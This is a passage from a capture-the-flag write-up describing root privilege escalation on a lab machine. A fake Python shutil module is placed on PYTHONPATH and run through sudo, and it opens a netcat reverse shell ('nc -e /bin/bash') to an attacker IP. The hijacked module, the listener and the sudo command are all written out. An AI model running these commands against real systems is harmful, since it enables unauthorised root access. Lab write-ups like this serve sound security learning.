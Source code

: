 We can see at the top it imports a function from a python module called `shutil`, we can create a fake module and change the path, so it executes our module as root.

First, we need to create a fake shutil module with a `make_archive()` function so it is imported. I put this file in a folder called `fake_shutil` in /tmp

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c): # We need the 3 parameters just like the real function, even though they won't be used
        os.system("nc -e '/bin/bash' 10.10.15.15 4444")
```

Then, we just need to setup a listener locally for when the target connects.

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, we need to run the admin tasks script with the specified python path of our fake module so it gets executed instead of the real one.

```bash
sudo PYTHONPATH=/tmp/fakeshutil /opt/scripts/admin_tasks.sh
```

When we run the script, we select option 6 because that was the function that called the python script.

![run_script](/assets/img/posts/admirer/run_script.png)

And we can see that we got a connection on our listener:

![root_shell](/assets/img/posts/admirer/root_shell.png)

## Root.txt

We find the root flag in /root

![root_flag](/assets/img/posts/admirer/root_flag.png)